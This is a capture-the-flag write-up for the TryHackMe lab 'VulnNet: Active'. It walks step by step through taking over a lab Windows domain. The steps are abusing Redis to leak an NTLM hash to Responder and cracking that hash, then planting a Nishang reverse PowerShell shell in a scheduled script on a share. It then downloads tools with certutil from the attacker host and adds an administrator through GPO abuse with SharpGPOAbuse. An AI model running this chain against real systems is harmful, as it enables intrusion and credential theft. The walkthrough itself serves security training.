 # VulnNet: Active

**Room Link:** [https://tryhackme.com/r/room/vulnnetactive](https://tryhackme.com/r/room/vulnnetactive)

## **Scans** <a href="#scans" id="scans"></a>

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (873).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (875).png" alt=""><figcaption></figcaption></figure>

## **TCP/139 - NetBIOS** <a href="#tcp-139-netbios" id="tcp-139-netbios"></a>

**Kali**

```
nbtscan $VICTIM
```

<figure><img src="../../.gitbook/assets/image (874).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
enum4linux $VICTIM
```

<figure><img src="../../.gitbook/assets/image (876).png" alt=""><figcaption></figcaption></figure>



## **TCP/445 - SMB**

No results. Couldn't login anonymously.&#x20;

**Kali**

```
smbclient -L //$VICTIM/ 
```

## **TCP/6379 - Redis** <a href="#tcp-139-netbios" id="tcp-139-netbios"></a>

Added active.thm

**Kali**

```
redis-cli -h active.thm
```

**Kali(redis-cli)**

```
config get *
```

<figure><img src="../../.gitbook/assets/image (877).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (879).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
responder -I ens5 -dvw  
```

**Kali(redis-cli)**

```
eval "dofile('//$KALI/share')" 0
```

<figure><img src="../../.gitbook/assets/image (880).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><img src="../../.gitbook/assets/image (881).png" alt=""><figcaption></figcaption></figure>



## **TCP/445 - SMB**

**Kali**

```
smbclient -L //$VICTIM/ -U enterprise-security
Password: sand_0873959498
```

<figure><img src="../../.gitbook/assets/image (882).png" alt=""><figcaption></figcaption></figure>

#### Download files <a href="#download-files-1" id="download-files-1"></a>

**Kali**

```
smbclient \\\\$VICTIM\\Enterprise-Share -U enterprise-security
Password: sand_0873959498
```

**Kali(smbclient)**

```
ls
mget *
```

<figure><img src="../../.gitbook/assets/image (883).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cat PurgeIrrelevantData_1826.ps1
```

<figure><img src="../../.gitbook/assets/image (885).png" alt=""><figcaption></figcaption></figure>

## **Initial Shell**

**Kali**

```
git clone https://github.com/samratashok/nishang.git
cd nishang/Shells/
subl Invoke-PowerShellTcp.ps1
```

**Kali(subl)**

```
Invoke-PowerShellTcp -Reverse -IPAddress $KALI -Port 4444
```

<figure><img src="../../.gitbook/assets/image (884).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cp Invoke-PowerShellTcp.ps1 PurgeIrrelevantData_1826.ps1
```

**Upload payload**

**Kali(smbclient)**

```
put PurgeIrrelevantData_1826.ps1
```

After a few moments we get a connection

**Kali**

<pre><code><strong>rlwrap nc -lvnp 4444
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (886).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation&#x20;

### Download SharpHound PS1

This failed because when running the script it would just hang and I had to reset the server. So After I tried with the exe.

**Kali**

```
git clone https://github.com/BloodHoundAD/BloodHound.git
cp BloodHound/Collectors/SharpHound.ps1 .
python2 -m SimpleHTTPServer 82
```

**Victim(Powershell)**

```
certutil -urlcache -f http://$KALI:82/SharpHound.ps1 SharpHound.ps1
powershell -ep bypass
.\SharpHound.ps1 
```

### Download SharpHound EXE

**Kali**

```
git clone https://github.com/BloodHoundAD/BloodHound.git
cp BloodHound/Collectors/SharpHound.exe .
python2 -m SimpleHTTPServer 82
```

**Victim(Powershell)**

```
certutil -urlcache -f http://$KALI:82/SharpHound.exe SharpHound.exe
SharpHound.exe
```

### **Transfer results to Kali**

**Victim(Powershell)**

```
copy 20240405092615_BloodHound.zip C:\Enterprise-Share\
```

**Kali(smbclient)**

```
get 20240405092615_BloodHound.zip
```

### BloodHound  <a href="#bloodhound-installation" id="bloodhound-installation"></a>

**Kali #1**

```
neo4j console
```

**Kali #2**

```
bloodhound --no-sandbox
```

We can just drag the zip file to bloodhound to import it.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Find Shortest Paths to Domain Admins

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Our user enterprise-security has write access to the GPO called "SECURITY-POL-VN"

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### SharpGPOAbuse

**Kali**

```
git clone https://github.com/byronkg/SharpGPOAbuse.git
cp SharpGPOAbuse/SharpGPOAbuse-master/SharpGPOAbuse.exe .
python2 -m SimpleHTTPServer 82
```

**Victim(Powershell)**

```
certutil -urlcache -f http://$KALI:82/SharpGPOAbuse.exe SharpGPOAbuse.exe
```



This task is running one command which is to add our user enterprise-security to the administrator group

**Victim(Powershell)**

```
 .\SharpGPOAbuse.exe --AddComputerTask --TaskName "privesc" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
```

<figure><img src="../../.gitbook/assets/image (888).png" alt=""><figcaption></figcaption></figure>

After the change is successful we just need to push the GPU for it to work.

**Victim(Powershell)**

```
 gpupdate /force
```

<figure><img src="../../.gitbook/assets/image (889).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
psexec.py enterprise-security:sand_0873959498@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

